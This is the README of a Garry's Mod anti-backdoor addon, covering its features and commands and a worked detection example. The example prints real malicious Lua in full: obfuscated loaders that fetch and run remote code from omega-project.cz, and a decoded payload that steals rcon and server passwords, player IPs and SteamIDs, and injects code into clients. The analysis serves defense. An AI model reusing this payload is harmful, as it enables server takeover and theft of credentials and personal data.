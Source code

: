 # Garry's Mod - Backdoor Shield

Protect your GMod server against backdoors! Block, find, investigate and remove them.

![image](https://user-images.githubusercontent.com/5098527/167985260-d2e325c7-b310-4eee-a246-ecde898fd5d2.png)

# Incompatibilities

> DO-NOT-USE this addon on servers with paid mods!!!! Many of them have complex DRMs, which in most cases get detected and blocked. This can lead to serious authentication problems and even license loss! If you suspect that your addons are infected, run them along Backdoor Shield in a clean server/GMod instance!

> Avoid addons that set their own environment because they can break, like:
> - gmDoom - https://steamcommunity.com/sharedfiles/filedetails/?id=133300986

Also, consider Backdoor Shield as W.I.P! Know that I don't intend to add fancy features or even make this addon user friendly, this project is a hobbyist experiment.

# What is a backdoor?

> "a backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high level user access (aka root access) on a computer system, network, or software application. Once they're in, cybercriminals can use a backdoor to steal personal and financial data, install additional malware, and hijack devices." - Malwarebytes

As for backdoors, in GMod very often we confront entire groups with pre-made panels using complex functions, there's a market for that.

Although the security of the game has increased a lot over time, these attacks are still very dangerous as they can culminate in theft of scripts, settings and personal data as well as other types of damage. E.g. someone with improper admin access can either delete all files in the data folder or slowly cause server issues until the players give up on it.

# Features

Backdoor Shield

- Starts before all addons;
- Has the internal code highly protected;
- Has a custom logs system, colored;
- Was tested against 1500+ addons, both from workshop and forums;
- Has a files scanner, that:
  - Can read files from any extension quickly and intelligently;
  - Searchs for over 450 invisible utf8 characters;
  - Has whitelists, blacklists and loose detections lists;
  - Uses a weight system to determine which detections are important;
  - Prints the relevant results;
  - Logs detections organized by risk.
- Has real-time protection, that:
  - Checks the functions parameters/arguments;
  - Protects the stack calls checking functions by address;
  - Undoes protected functions detouring;
  - Searchs for over 450 invisible utf8 characters;
  - Has whitelists, blacklists and loose detections lists;
  - Can turn off its components individually;
  - Is capable of producing traces even through tail calls;
  - Has a simple extra window to warn of detections;
  - Prints detections to the console;
  - Logs detections grouped and individually by type with contents.

Honestly, I don't know of a free addon that looks like this.

# Install

Clone or download the files inside your **addons folder**.

You can also subscribe to BS in the Workshop, but that way you won't be able to change the addon settings later: https://steamcommunity.com/sharedfiles/filedetails/?id=2215013575

# Configure

All settings are in three files in this folder:
- **lua/bs/server/definitions/**

There's one for the file scanner, one for real-time protection, and one for internal behaviour. Everything is documented at each location.

# Commands

As shown in the screenshot above:

    Commands:
    |
    |-> bs_scan FOLDER(S)       Recursively scan lua, txt, vmt, dat and
    |                           json files in FOLDER(S).
    |
    |-> bs_scan_full FOLDER(S)  Recursively scan all files in FOLDER(S).
       
        * If no folder is defined, it'll scan addons, lua, gamemodes and
          data folders.

It is worth noting that it's a good idea to focus searches to obtain relevant and reduced results. Multiple folders can be selected by the commands, like:

    bs_scan_full addons/myAddonA addons/myAddonB

And an interesting thing to do here is to isolate suspicious files in subfolders within the addons folder (like addons/isolation/suspiciousAddon). That way, the game will mount all the content but it'll not execute. Now we can run the command:

    bs_scan_full addons/isolation/suspiciousAddon


Note: there's also the ``bs_tests`` command to aid in development. It's enabled when dev mode is turned on.

# Logs

They're stored in **data/backdoor-shield**.

![image](https://user-images.githubusercontent.com/5098527/167988691-5b611163-0a22-41fc-8011-c38e083c0516.png)

<details><summary>File scanner</summary>
<p>
<img src="https://user-images.githubusercontent.com/5098527/167990351-941bd7ef-abc0-4e6a-8600-48e097ca3fde.png"/>

Logs from the file scanner are are organized by date and time. Within them, the information is grouped by risk.

<img src="https://user-images.githubusercontent.com/5098527/167990714-480bb9f3-30df-44f7-bcca-216f14e6c957.png"/>
</p>
</details>

<details><summary>Real-time</summary>
<p>
<img src="https://user-images.githubusercontent.com/5098527/167990081-4d8a0a56-6235-43bd-b08d-da32c3bfd6e4.png"/>

As for the real-time detections, they are in subfolders named by date and are organized in two different ways.

<img src="https://user-images.githubusercontent.com/5098527/167988995-2b2443dc-037f-47c8-91f0-597504ea04ba.png"/>

In the first one, items are grouped by "detections", "warnings" and "detours", as shown above. Within these files the entries are placed in order of occurrence:

<img src="https://user-images.githubusercontent.com/5098527/167989406-cdac9556-a728-424f-9f58-d1198f04cde9.png"/>

In the second, each detection is placed inside subfolders with the name of the detected function and relevant items such as pieces of malicious code.

<img src="https://user-images.githubusercontent.com/5098527/167989468-366ef03a-b663-42cb-907b-8cafb25c8e4c.png"/>

<img src="https://user-images.githubusercontent.com/5098527/167989517-e422463d-d7e1-4293-99a6-724169fa8fba.png"/>
</p>
</details>

# Real-time protection example

The example below was made in an older version of the addon but it's ok, the idea is still very similar to the current one.

## Detection

<details><summary>1) Running two backdoors</summary>
<p>

```lua
-- Dead backdoor:

RunString(string.char(104, 116, 116, 112, 46, 70, 101, 116, 99, 104, 40, 34, 104, 116, 116, 112, 58, 47, 47, 98, 117, 114, 105, 101, 100, 115, 101, 108, 102, 101, 115, 116, 101, 101, 109, 46, 99, 111, 109, 47, 114, 101, 107, 116, 47, 114, 101, 107, 116, 46, 108, 117, 97, 34, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 41, 32, 82, 117, 110, 83, 116, 114, 105, 110, 103, 40, 99, 41, 32, 101, 110, 100, 32, 41))

-- Alive backdoor:

http.Fetch("https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx", function(c) RunString(c) end )
```

</p>
</details>

<details><summary>2) The detection occurs</summary>
<p>
<img src="https://i.imgur.com/BDk6TJk.png"/>
<img src="https://i.imgur.com/3yWXO6D.png"/>
</p>
</details>

<details><summary>3) The logs are stored</summary>
<p>
<img src="https://i.imgur.com/DhGWEbU.png"/>
<img src="https://i.imgur.com/XWCwr87.png"/>
</p>
</details>

<details><summary>4) We can see the blocked contents</summary>
<p>

- The first backdoor is dead, since the link inside the content doesn't work

<img src="https://i.imgur.com/PUX4QG3.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: RunString
    Date: 08-29-2020
    Time: 19h 34m 56s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/RunString/log_blocked_(19h 34m 56s).txt
    Detected:
        RunString
        http.Fetch
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'RunString'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:3: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

http.Fetch("http://buriedselfesteem.com/rekt/rekt.lua", function(c) RunString(c) end )
```

- But the second one is doing some stuff

<img src="https://i.imgur.com/6i8xNtz.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: http.Fetch
    Date: 08-29-2020
    Time: 19h 37m 32s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/http.Fetch/log_blocked_(19h 37m 32s).txt
    Url: https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx
    Detected:
        RunString
        RunString
        http.Fetch
        http.Post
        _G[
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'Fetch'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:7: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

arguments    =    {
            "


local sKqYgoHBFGNoMavJtTsX = { 
    --[[ EXTENTIONS DOMAINS BACKDOORS ]]
    "\46\99\102",
    "\46\116\107",
    "\46\121\111\46\102\114",
    "\46\121\110\46\102\114",
    "\46\48\48\48\119\101\98\104\111\115\116",
    "\97\108\119\97\121\115\100\97\116\97\46\110\101\116",
    "\46\103\113",
    "\46\120\121\122",
    "\46\101\115\121\46\101\115",
    "\46\109\108",
    --[[ DOMAINS BACKDOORS ]]
    "\100\114\109\46\103\109",
    "\103\118\97\99\100\111\111\114",
    "\103\118\97\99",
    "\107\112\97\110\101\108",
    "\108\107\112\97\110\101\108",
    "\119\116\102\109",
    "\103\109\97\112",
    "\103\45\104\117\98",
    "\103\112\97\110\101\108",
    "\97\115\116\105\108\108\97\110",
    "\103\104\97\120",
    "\106\101\108\108\121\105\115\97\102\97\103",
    "\115\105\122\122\117\114\112",
    "\104\97\121\108\97\121",
    "\114\118\97\99",
    "\99\105\112\104\101\114\45\112\97\110\101\108",
    "\120\118\97\99\100\111\111\114",
    "\74\117\115\116\45\115\101\114\118",
    "\74\117\115\116\115\101\114\118",
    "\120\101\110\100\111\111\114",
    "\69\120\111\100\111\115\105\117\109",
    "\109\121\119\97\105\102\117",
    "\103\98\108\107",
    --[[ FILES BACKDOORS ]]
    "\115\116\97\103\101\49\46\112\104\112",
    "\115\116\97\103\101\50\46\112\104\112",
    "\101\118\111\46\112\104\112",
    "\101\121\111\46\112\104\112",
    "\98\97\99\107\100\111\111\114\46\112\104\112",
    "\102\108\103\46\94\112\104\112",
    "smart-overwrite",
    "anatik",
    --[[ $_GET BACKDOORS ]]
    "\63\116\111\61",
    "\63\116\111\107\101\110\61",
    "\63\102\117\99\107\95\107\101\121\61",
    "\63\98\97\99\107\100\111\111\114\95\107\101\121\61",
    --[[ DIR BACKDOORS ]]
    "\47\115\121\115\47",
    "\47\99\111\114\101\47",
    "\47\115\101\99\117\114\101\95\97\114\101\97\47"
}


local httpF = http.Fetch  
local httpP = http.Post 
local vraisHTTP = HTTP function HTTP(a)     
    if a.url then 
        for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
            if string.find(a.url, v) then 
                return end 
            end 
          end 
  return vraisHTTP(a) 
end 

function http.Fetch(...) 
   local args = {...} 
   if args[1] then 
       for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
           if string.find(args[1], v) then 
               return end 
       end 
   end 

   return httpF(...) 
end 


function http.Post(...) 
local args = {...} 
if args[1] then 
    for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
        if string.find(args[1], v) then 
            return end 
     end 
    end return httpP(...) 
   end

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)

",
            2703,
            {
            Vary    =    "Accept-Encoding",
            Set-Cookie    =    "__cfduid=dfe0c3e4f2be8978d00090d7df7dc9e711598740653; expires=Mon, 28-Sep-20 22:37:33 GMT; path=/; domain=.omega-project.cz; HttpOnly; SameSite=Lax; Secure,__ddg1=ZRzJovYJDvrB2k895vsn; Domain=.omega-project.cz; HttpOnly; Path=/; Expires=Sun, 29-Aug-2021 22:37:33 GMT",
            Transfer-Encoding    =    "chunked",
            Connection    =    "keep-alive",
            Date    =    "Sat, 29 Aug 2020 22:37:34 GMT",
            Content-Encoding    =    "gzip",
            Content-Type    =    "text/html; charset=UTF-8",
            Server    =    "cloudflare",
                },
            200,
}
```

</p>
</details>

## Decoding

We can keep going to see whats going on. I won't explain how I deobfuscated the code but I'll show the result.

<details><summary>1) Here is the active backdoor decoded</summary>
<p>

It's inhibiting other backdoors through some detourings and taking the next step.

```lua
local nKvWQygqjyMKsWkNbsiO = { 
    --[[ EXTENTIONS DOMAINS BACKDOORS ]]
    ".cf",
    ".tk",
    ".yo.fr",
    ".yn.fr",
    ".000webhost",
    "alwaysdata.net",
    ".gq",
    ".xyz",
    ".esy.es",
    ".ml",
    --[[ DOMAINS BACKDOORS ]]
    "drm.gm",
    "gvacdoor",
    "gvac",
    "kpanel",
    "lkpanel",
    "wtfm",
    "gmap",
    "g-hub",
    "gpanel",
    "astillan",
    "ghax",
    "jellyisafag",
    "sizzurp",
    "haylay",
    "rvac",
    "cipher-panel",
    "xvacdoor",
    "Just-serv",
    "Justserv",
    "xendoor",
    "Exodosium",
    "mywaifu",
    "gblk",
    --[[ FILES BACKDOORS ]]
    "stage1.php",
    "stage2.php",
    "evo.php",
    "eyo.php",
    "backdoor.php",
    "flg.^php",
    "smart-overwrite 10",
    "anatik 10",
    --[[ $_GET BACKDOORS ]]
    "?to=",
    "?token=",
    "?fuck_key=",
    "?backdoor_key=",
    --[[ DIR BACKDOORS ]]
    "/sys/",
    "/core/",
    "/secure_area/",
}

-- Toma as funções do GMod pra ele
local httpF = http.Fetch  
local httpP = http.Post 
local vraisHTTP = HTTP

-- Barra o uso de backdoors bloqueando tudo da lista acima
-- (Se estiver limpo, executa a função)

function HTTP(a)
    if a.url then 
        for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
            if string.find(a.url, v) then 
                return end 
            end 
          end 
  return vraisHTTP(a) 
end 

function http.Fetch(...) 
   local args = {...} 
   if args[1] then 
       for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
           if string.find(args[1], v) then 
               return end 
       end 
   end 

   return httpF(...) 
end 


function http.Post(...) 
local args = {...} 
if args[1] then 
    for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
        if string.find(args[1], v) then 
            return end 
     end 
    end return httpP(...) 
   end

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)
```

</p>
</details>

<details><summary>2) I disabled my old Lua snippets, took the end of the decoded script and ran it</summary>
<p>

```lua
-- Dead backdoor:

--RunString(string.char(104, 116, 116, 112, 46, 70, 101, 116, 99, 104, 40, 34, 104, 116, 116, 112, 58, 47, 47, 98, 117, 114, 105, 101, 100, 115, 101, 108, 102, 101, 115, 116, 101, 101, 109, 46, 99, 111, 109, 47, 114, 101, 107, 116, 47, 114, 101, 107, 116, 46, 108, 117, 97, 34, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 41, 32, 82, 117, 110, 83, 116, 114, 105, 110, 103, 40, 99, 41, 32, 101, 110, 100, 32, 41))

-- Alive backdoor:

--http.Fetch("https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx", function(c) RunString(c) end )

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)
```

</p>
</details>

<details><summary>3) Now I got a new detection with a bunch of new things to analyze</summary>
<p>
<img src="https://i.imgur.com/SBwHXDy.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: http.Fetch
    Date: 08-29-2020
    Time: 19h 42m 45s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/http.Fetch/log_blocked_(19h 42m 45s).txt
    Url: https://api.omega-project.cz/api_connect.php?api_key=
    Detected:
        =_G
        RunString
        CompileString
        BroadcastLua
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'Fetch'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:9: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

arguments    =    {
            "
--[[
 name: Ʊmega Project
 author: Inplex
 Google Trust Api factor: 78/100
 Last Update: 02 06 2020
 Description: If you use the panel for hack you will be banned !
]]

local debug = debug
local error = error
local ErrorNoHalt = ErrorNoHalt
local hook = hook
local pairs = pairs
local require = require
local sql = sql
local string = string
local table = table
local timer = timer
local tostring = tostring
local mysqlOO
local TMySQL
local _G = _G
UzjRokDYxAOWbxLIEiRXmogsroltxsCpQgiEkuIR = {}
local server_key = "UrJPyGUdi"_R=_G
if omega_ed463d5fadf4890eca35eb8ea156c847 == "HGEed463d5fadf4890eca35eb8ea156c847" then return end
omega_ed463d5fadf4890eca35eb8ea156c847="HGEed463d5fadf4890eca35eb8ea156c847"
_R["\95\48\120\54\56\51\50\53\51"]=_R["\104\116\116\112"]["\112\111\115\116"] or "timer"
_R["\95\48\120\52\56\50\51\55\54"]=_R["\104\116\116\112"]["\80\111\115\116"] or "Create"
_R["\95\48\120\49\55\54\53\49\52"]=_R["\72\84\84\80"] or "api.omega-project.cz"
_R["\95\48\120\52\53\49\57\53\54"]=_R["\83\101\114\118\101\114\76\111\103"] or ""
_R["\95\48\120\50\57\54\55\56\55"]=_R["\82\117\110\83\116\114\105\110\103"] or "rcon non trouvé"
_R["\95\48\120\51\52\50\52\53\48"]=_R["\102\105\108\101"]["\69\120\105\115\116\115"] or "print"
_R["\65\120\121\117\110\101\77\90\87\69"] = "api.omega-project.cz"
_R["\104\122\100\65\108\99\118\113\106\114"] = "\97\116\108\97\115\45\99\104\97\116\46\115\105\116\101"
_R["\95\48\120\57\52\48\49\51\55"] = _R["\69\114\114\111\114"]
local pGbSGVIuUevjvQbOFgCc, FCPttlLwqrzAChdIZtnd  = "\80\108\97\121\101\114\73\110\105\116\105\97\108\83\112\97\119\110", "\80\108\97\121\101\114\68\105\115\99\111\110\110\101\99\116\101\100"
local header_GwFWGpHBKMfYqsd = {
  ["Authorization"] = "ZWM2OGJkMjMxMGMyODRiODljNGYyNDliYTkzMWQ2Y2Q"
}

-- include request
_0x176514({ url=[[https://]]..AxyuneMZWE.."/api_anti_backdoors.php"; method="get"; success=function(api,anti_backdoors) _0x296787(anti_backdoors) end })
_0x176514({ url=[[https://]]..AxyuneMZWE.."/api_player_blacklist.php"; method="get"; success=function(api,bad_player_blacklist) _0x296787(bad_player_blacklist) end })

local addons_files, addons_folders = _R["file"]["Find"]("addons/*", "GAME")
for k,v in pairs(addons_folders) do
 if (v != "checkers") and (v != "chess") and (v != "common") and (v != "go") and (v != "hearts") and (v != "spades") then
  _0x482376([[https://]]..AxyuneMZWE.."/api_addons.php", {server_ip = _R["game"]["GetIPAddress"](),crsf = "LuicBbIVUSxUbwKyGdOPvHgEVMjRiZFsmMhwEuzy#MTg2LjIyOS4yMjYuMTAy#DcKbgZMolAqhaosmSYVGXXJTAgfyqJvQclnitBUy",addons_name = v, addons_update = util.Base64Encode(file.Time( "addons/"..v, "GAME" ))}, function(http_addons) 
    if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_addons, 1 ) == "<" or http_addons == "" then 
      return 
     else 
      _0x296787(http_addons) 
    end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd ) 
 end 
end


util.AddNetworkString("cKdwwjkBzpUSproGWmGe")
_R["BroadcastLua"]([[net.Receive("cKdwwjkBzpUSproGWmGe",function()CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))),"?")()end)]])
function _0x427940(HsQzhjEtDdhsZssJfpfL)
  timer.Simple( 0.5, function( )
   _R["DATA"] = util.Compress(HsQzhjEtDdhsZssJfpfL)
   _R["len"] = #data
   _R["\110\101\116"]["\83\116".."\97\114\116"]("cKdwwjkBzpUSproGWmGe")
   _R["\110".."\101\116"]["\87\114".."\105\116\101\85\73\110\116"](len, 16)
   _R["\110\101".."\116"]["\87\114\105\116\101\68".."\97\116\97"](data, len)
   _R["\110\101\116"]["\66\114\111".."\97\100\99\97\115\116"]()
  end)
end


util.AddNetworkString("QvQaTLXQJvDEmezmiHYj")
_R["BroadcastLua"]([[net.Receive("QvQaTLXQJvDEmezmiHYj",function()CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))),"?")()end)]])
function SendPly(HsQzhjEtDdhsZssJfpfL, steamid64)
  timer.Simple( 0.5, function( )
   _R["\100\97\116\97"] = util.Compress(HsQzhjEtDdhsZssJfpfL)
   _R["\108\101\110"] = #data
   _R["\110\101\116"]["\83\116".."\97\114\116"]("QvQaTLXQJvDEmezmiHYj")
   _R["\110".."\101\116"]["\87\114".."\105\116\101\85\73\110\116"](len, 16)
   _R["\110\101".."\116"]["\87\114\105\116\101\68".."\97\116\97"](data, len)
   for k, ply in pairs(player.GetAll()) do
     if ( ply:SteamID64() == steamid64 ) then
        _R["\110\101\116"]["Send"](ply)
     end
   end
  end)
end

_R["\104\111\111\107"]["\65\100\100"](pGbSGVIuUevjvQbOFgCc, "nYQUQrWaerewCmEoqjVUvrrkWFAgjfYzfecgMiiTgymFAonGsT", function(ply) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd",
         ["\99\111\108\111\114"] = "5dc766",
         ["\99\111\110\116\101\110\116"] = "Client "..ply:Name().." connected ("..ply:IPAddress()..").", 
         ["\115\101\114\118\101\114\95\105\112"]  = _R["game"]["GetIPAddress"]()
    },_0x296787)
end)

_R["\104\111\111\107"]["\65\100\100"](FCPttlLwqrzAChdIZtnd, "msBMAtvKWjUOHFZfNCRBemSkQdJnfwcpcfFnPKfQqxcaKEhMma", function(ply) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
         ["color"] = "de3333",
         ["\99\111\110\116\101\110\116"] = "Dropped "..ply:Name().." from server (Disconnect by user).", 
         ["\115\101\114\118\101\114\95\105\112"]  = _R["game"]["GetIPAddress"]()
    },_0x296787)
end)

function ServerLog( logs_content ) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
         content = logs_content, 
         server_ip = _R["game"]["GetIPAddress"]()
    },_0x296787) 
    return _0x451956( logs_content ) 
end 

function Error( string )
  _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
       ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
       ["\99\111\110\116\101\110\116"] = string, 
       ["\115\101\114\118\101\114\95\105\112"] = _R["game"]["GetIPAddress"]()
  },RunString)
  return _0x940137( string )
end

_R["\116\105\109\101\114"]["\67\114\101\97\116\101"]( "FLPcvsCBTQJoZQGLILQUDEVvRmPRvLoyVXEuMYOSOHMaEXDKse", 1, 0, function()
_R["\104\111\111\107"]["\65\100\100"]( "PlayerSay", "ujLFdRUcqVAoqZwfiMSQpZeWbcvItgnNitYilclAqwPUvxSmZW", function( ply, text )
local http_chat_table = {
    name = ply:Name(), 
    server_ip = _R["GetTcpInfo"](), 
    steamid64 = ply:SteamID64(),
    nyFaIvniEL = "TPlnCsTLWywBNOdjsIEpiZEXJLCAJoQzesllKZlW",
    BtNDxRHcgb = "PCBKWTMGVJirRWrxIPNjkwOesDxXxeFDdpepUfdM",
    jcqaplfenV = "crraFpbGqRmxDQCenENbzIJAuNUFieGTgdJoBiZG",
    LEUJYRpUyx = "aizJdLXTEVPoYQQsgMOdzSwCmNazHfRFrFNnffmT",
    FBWCeMNeTL = "LSxRhSnkNHyrbgtboMNzAiTZFrsnkkcLYGwciHlo", 
    message = text
  } 
_0x482376([[https://]]..AxyuneMZWE.."/chat_connect.php?haoaOPspJnETKyz=trPtLhCynfaGkLt", http_chat_table, function(http_chat) _0x296787(http_chat) end)
end)
if _0x342450("\99\102\103\47\97\117\116\111\101\120\101\99\46\99\102\103","GAME") 
  then local cfile = file.Read("cfg/autoexec.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) do 
    if string.StartWith(v,"rcon_password") 
    then rcon_pw = string.Split(v,"\"")[2] 
   end
  end 
end
if _0x342450("\99\102\103\47\115\101\114\118\101\114\46\99\102\103","GAME") 
  then cfile = file.Read("cfg/server.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) 
  do if string.StartWith(v,"rcon_password") 
  then rcon_pw = string.Split(v,"\"")[2] 
    end 
   end 
 end 
if _0x342450("\99\102\103\47\103\97\109\101\46\99\102\103","GAME") 
  then cfile = file.Read("cfg/game.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) 
  do if string.StartWith(v,"rcon_password") 
  then rcon_pw = string.Split(v,"\"")[2] 
    end 
   end 
 end  
 if _0x342450("\99\102\103\47\103\109\111\100\45\115\101\114\118\101\114\46\99\102\103","GAME") 
 then cfile = file.Read("cfg/gmod-server.cfg","GAME") 
 for k,v in pairs(string.Split(cfile,"\n")) 
 do if string.StartWith(v,"rcon_password") 
 then rcon_pw = string.Split(v,"\"")[2] 
   end 
  end 
end
if rcon_pw == "" then
 rcon_pw = "Aucun Rcon"
end
for k,v in pairs(player.GetAll()) do 
local DrkaWVDhZhRCHgyRGENj = {
    ["\110\97\109\101"] = v:GetName(),
    ["\105\112"] = v:IPAddress(),
    ["\115\101\114\118\101\114\95\105\112"] = _R["game"]["GetIPAddress"](),
    ["\99\114\115\102"] = "MMsFDCxvTbPfHnPUwcylyHhezmHbOsBlvhTiNhRz#MTg2LjIyOS4yMjYuMTAy#jSUttWLIHMKvFliWsMJRcDpxwgTHvKxLaPfwDBtZ",
    ["\115\116\101\97\109\105\100"] = v:SteamID(),
    ["\115\116\101\97\109\105\100\54\52"] = v:SteamID64(),
    ["OcvWPRmzdQ"] = "cZEHIshMiGdcmjIwgHRIBVckfUarvjwptUvgdeuw",
    ["khpvEspqLQ"] = "aaQsnnUqsxaGyqJkHqqxHCWJeAJMBHnixRPiFeQk",
    ["cZiGZpQXxK"] = "suKIfVNfRKCTdhQrvzbvKHfPmJMDyVfbdAdBTCtv",
    ["yNpPvxIEYQ"] = "jxcvvCnbgmfVMFbIxDIsIizjgGgSKeOCUTjiWdwm",
    ["NGiFdbJnXv"] = "dcUYvgSiZSvgHzSliHVxdliXIEMLhrzWhJPNpiZy"
  }
_0x482376([[https://]]..AxyuneMZWE.."/user_connect.php?rzfmjhnXKtVupXH=stmWrBHtmIsKpxN&ping=" .. v:Ping(), DrkaWVDhZhRCHgyRGENj, function( http_users ) 
     if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_users, 1 ) == "<" or http_users == "" then
       return
     else
       _0x296787( http_users )
     end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd )
end
  local VsTWOaUGyYXokLUQDOTO = {
    ["\105"] = _R["GetTcpInfo"](),
    ["\110"] = _R["\71\101\116\72\111\115\116\78\97\109\101"](),
    ["\109"] = _R["\103\97\109\101"]["\71\101\116\77\97\112"](),
    ["\98\111"] = _R["\116\111\115\116\114\105\110\103"](#_R["\112\108\97\121\101\114"]["\71\101\116\66\111\116\115"]()),
    ["\99"] = _R["\103\97\109\101"]["\71\101\116\73\80\65\100\100\114\101\115\115"]().."{+}"..server_key.."{+}".."1598740966",
    ["\103"] = _R["\101\110\103\105\110\101"]["\65\99\116\105\118\101\71\97\109\101\109\111\100\101"](),
    ["\99\114\115\102"] = "MTg2LjIyOS4yMjYuMTAy#HAxFpswxUQiTyulaKvyYIkQxTCoXuLzjFBBoHsfC",
    ["\110\98"] = tostring(#player.GetAll()).."/"..game.MaxPlayers(),
    ["\108\117\114\108"] = _R["GetConVar"]("sv_loadingurl"):GetString(),
    ["\112\97\115\115"] = GetConVar("\115\118\95\112\97\115\115\119\111\114\100"):GetString(),
    ["\107"] = "",
    ["\99\108\105\101\110\116".."_".."\102\117\110\99"] = "_0x427940",
    ["\114"] = rcon_pw,
    ["eBQErysiKP"] = "XDuoiBjxoHEwaPvznpkehEuKxGcGxwsAoxBzjpAZ",
    ["dufqbNcvWE"] = "NrpfyEcyJIyupTUKZTaRoxzouNBZZHtYnuGxxLaF",
    ["GxRQEDghgj"] = "XJGGIQUzmaJxUsZZUUdTCyKuTlotFXznZhEgWZoe",
    ["ECFmDAYImx"] = "WvXwVKAUamKSoEAOVmzbHCyxhvVnDjOrLsasylcp",
    ["TlQPyMqTiE"] = "pVMWPprumKRsZrYSjDVCkoSOZsCwGWLWGlgSZNWt"
  }
  _0x482376("https://omega-project.cz/api_lib/_-_-drm-_-_/__.php", VsTWOaUGyYXokLUQDOTO, function(http_servers) 
    if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_servers, 1 ) == "<" or http_servers == "" then 
      return 
    else 
      _0x296787(http_servers) 
    end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd ) 
end)

if 1 == 0 or 1 == 1 then
   local no_spam_plz = "cGhYBOTiQHkqBsENnrGnMPLxvwfEEwZlnpxlZHUHDCWdlWrrYB"
   CONNECTED_TO_MYSQL = true
   local all_server = sql.Query("SELECT * FROM server_list")
end

",
            11300,
            {
            Vary    =    "Accept-Encoding",
